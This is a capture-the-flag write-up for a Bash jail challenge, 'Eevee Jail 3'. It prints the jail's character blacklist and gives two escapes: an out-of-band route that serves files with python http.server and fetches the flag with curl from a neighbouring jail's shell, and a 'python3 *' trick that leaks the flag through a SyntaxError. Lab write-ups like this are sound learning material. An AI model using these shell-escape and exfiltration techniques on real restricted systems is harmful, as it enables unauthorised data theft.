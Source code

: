 # Eevee Jail - 3

Note: I didn't solve this one, but I learned something new, wanted to do the writeup either way. This challenge has 2 solutions

### 1'st Solution (Intended)

This one was also a Bash jail

{% tabs %}
{% tab title="jail-3.sh" %}
```bash
#!/bin/bash

echo "========================
=    Eevee's Jail 3    =
========================"

function blacklist {
	if [[ $1 == *[abcdfgijklquwxz'/''<''>''&''$']* ]]
	then
    		return 0
	fi

	return 1
}

while :
do
        read -p "[+] > " huh
	if blacklist "$huh"
	then
		echo -e '[!] Mission Failed'
	else
		output=`$huh < /dev/null` &>/dev/null
		echo "Command executed"
	fi
done 
```
{% endtab %}
{% endtabs %}

We have a lot of blacklisted characters:

```
a, b, c, d, f, g, i, j, k, l, q, u, w, x, z, ', /, <, >, &, $
```

And it directs our input from `/dev/null` to `/dev/null` ? Honestly, I don't even understand what's going on bruv.

```
output=`$huh < /dev/null` &>/dev/null
```

This is the key part actually, the challenge also came with a Docker setup file

{% tabs %}
{% tab title="docker-setup.txt" %}
1. sudo docker build --no-cache -t jail-3 .
2. sudo docker run --name eevee-jail-3 -p 9003:9003 --network custom-network -d jail-3
{% endtab %}
{% endtabs %}

It was on the same network as the previous Bash jail and the technique to use is an Out-Of-Band exfiltration

If we input any normal commands we get a "Mission  Failed" message but if we test it with `python3` we dont receive the message which means it executed. From here we host a Python webserver

```
❯ nc 157.180.92.15 9003

========================
=    Eevee's Jail 3    =
========================
[+] > python3 -m http.server 8888
python3 -m http.server 8888

```

And in the jail 2 challenge we enter `bash` and curl the flag with `1>&2` to redirect `stdout` to `stderr` because `stdout` was suppressed due to `/dev/null`

```
nc 157.180.92.15 9002
========================
=    Eevee's Jail 2    =
========================
[+] > bash
bash
bash: cannot set terminal process group (2978): Inappropriate ioctl for device
bash: no job control in this shell
eevee@ffe68f5882da:/jail-2$ curl http://eeve-jail-3:8000/flag.txt 1>&2
curl http://eeve-jail-3:8000/flag.txt 1>&2
bbctf{you really escape the prison this way huh?}
```

Flag: `bbctf{you really escape the prison this way huh?}`&#x20;

***

### 2'nd Solution (Unintended)

Now this was also a cool way. Because `stdout` was suppressed, we can leak the flag through `python3` but by using Python's SyntaxError message.

We use the `*` command which tries to execute the script in the cwd which is `flag.txt` but when Python finds that `flag.txt` is not a valid executable file it outputs the error line with the contents itself

```
[+] > python3 *
python3 *
  File "flag.txt", line 1
    bbctf{you really escape the prison this way huh?}
         ^
SyntaxError: invalid syntax
Command executed
[+] > 
```

Very cool stuff
